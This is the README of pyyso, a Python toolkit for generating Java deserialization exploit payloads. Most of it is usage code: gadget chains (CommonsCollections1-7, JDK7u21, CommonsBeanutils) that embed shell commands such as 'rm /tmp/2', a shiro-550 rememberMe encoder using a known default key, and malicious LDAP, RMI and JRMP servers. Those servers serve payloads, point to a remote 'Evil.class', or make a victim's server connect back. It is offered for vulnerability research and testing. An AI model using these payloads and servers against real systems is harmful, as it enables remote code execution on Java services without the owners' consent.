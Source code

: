 # pyyso: powerful java serialized toolkit

## What is it?
**pyyso** is a Python package that provides fast and flexible ways to generate java serialized poc.
It aims to be the fundamental high-level building block for doing vulnerability **check and research** in Python.
Additionally, it has a goal of becoming the most convenient and reliable toolkit implemented in Python for Java researchers

## Main Features
Here are just a few of the things that pyyso does well:

- Easy generating of java serialized poc
- Powerful, flexible functionality to start a LDAP/RMI/JRMP server to host java serialized pocs
- Communicating and collaborating with other Python packages 
- Won't be exploited back in RMI like java client

pyyso has implemented
- URLDNS Gadget
- CommonsCollections1-7 Gadgets
- JDK7u21 Gadget
- JDK8u21 Gadget
- CommonsBeanutils1 1.8.3 no cc
- CommonsBeanutils1 1.9.2
- shiro-550 rememberMe deserialized
- java class embed with command
- LDAP server hosting java serialized pocs
- LDAP server hosting java remote reference factory
- RMI server
- high JDK version beanfactory bypass
- JRMP server
- JRMPClient Gadget

## Where to get it
The source code is currently host on GitHub at:
https://github.com/cokeBeer/pyyso

## Installation from sources
```sh
pip install pyyso
```

## How to use
### basic usage

First import pyyso

```python
import pyyso
```
To generate a java serialized zed poc use:
```python
pyyso.urldns("https://x.dnslog.com") #return java serialzed data of URLDNS in bytes
pyyso.cc1("touch /tmp/1") #return java serialzed data of CommonsColletions1 in bytes
pyyso.cc2("touch /tmp/1") #return java serialzed data of CommonsColletions2 in bytes
pyyso.jdk7u21("touch /tmp/1") #return java serialzed data of JDK7u21 in bytes
pyyso.jdk8u20("touch /tmp/1") #return java serialzed data of JDK8u20 in bytes
pyyso.jrmpclient("127.0.0.1",80) #return java serialzed data of jrmpclient in bytes
pyyso.cb1v183("touch /tmp/1") #return java serialzed data of CommonsBeanutils1 1.8.3 no cc in bytes
```
To generate a java class embed with command use:
```python
pyyso.clazz("touch /tmp/1") #return java class embed with command in bytes
```
### shiro 

To encode a shiro poc use:

```python
serobj=pyyso.cb1v183("touch /tmp/1")
pyyso.shiroEncode(serobj=serobj,key=b'kPH+bIxk5D2deZiIxcaaaA==')
```
### LDAP

To start a LDAP server hosting java serialized pocs:

```python
serobj=pyyso.cc1("touch /tmp/1")
server=pyyso.LdapSerialized(serobj=serobj, ip="0.0.0.0", port=1389)
server.run()
```
This will start a LDAP server listening `0.0.0.0:1389` 
You can change the hosted java serialized data by:

```python
server.serobj=pyyso.cc1("rm /tmp/2")
```
To start a LDAP server hosting java remote reference factory:
```python
server=pyyso.LdapRemoteRef(javaCodeBase="http://127.0.0.1:8088/", javaFactory="Evil", javaClassName="java.lang.String", ip="0.0.0.0", port=1389):
server.run()
```
This will start a LDAP server listening `0.0.0.0:1389 ` 
and will return a remote reference pointer to `http://127.0.0.1:8088/Evil.class`

### JRMP

To start a JRMPListener

```python
serobj=pyyso.cc1("open /tmp",jrmp=True) #note that there is 'jrmp=True'!
server=pyyso.JRMPListener(serobj=,ip="0.0.0.0", port=5151)
server.run()
```

This will start a JRMPListener listening `0.0.0.0:5151`

By deserializing a jrmpclient Gadget in victim's server, the victim's server will connect back to JRMPListener.

the  jrmpclient Gadget should be made by:

```python
serobj=pyyso.jrmpclient(hostname="127.0.0.1", port=5151)
```

which the hostname  is corresponding to where JRMPListener is hosting on

### RMI and bypass

To get a bypass poc, use:

```python
serobj=pyyso.beanfactory("open /tmp", rmi=True)
```

To start a RMI server and host bypass poc, use:

```python
serobj=pyyso.beanfactory("open /",rmi=True) ##note that there is 'rmi=True'!
server=pyyso.RMIServer(serobj=serobj,ip="0.0.0.0", port=1099, refip="0.0.0.0", refport=42155)
server.run()
```

a registry will listen `0.0.0.0:1099`  and a poc provider server will listen `0.0.0.0:42155`

## Support Options

For some reasons, part Gadgets support  JRMP or RMI now，which can be enabled by `rmi=True` or `jrmp=True`

| Gadgets     | Basic | jrmp option | rmi option |
| ----------- | ----- | ----------- | ---------- |
| CC1-CC7     | ✅     | ✅           | ❌          |
| CB1v192     | ✅     | ✅           | ❌          |
| JDK7u21     | ✅     | ✅           | ❌          |
| beanfactory | ❌     | ❌           | ✅          |
| others      | ✅     | ❌           | ❌          |

## License

[MIT](LICENSE)

## Inspired by
https://github.com/frohoff/ysoserial  
https://github.com/mbechler/marshalsec
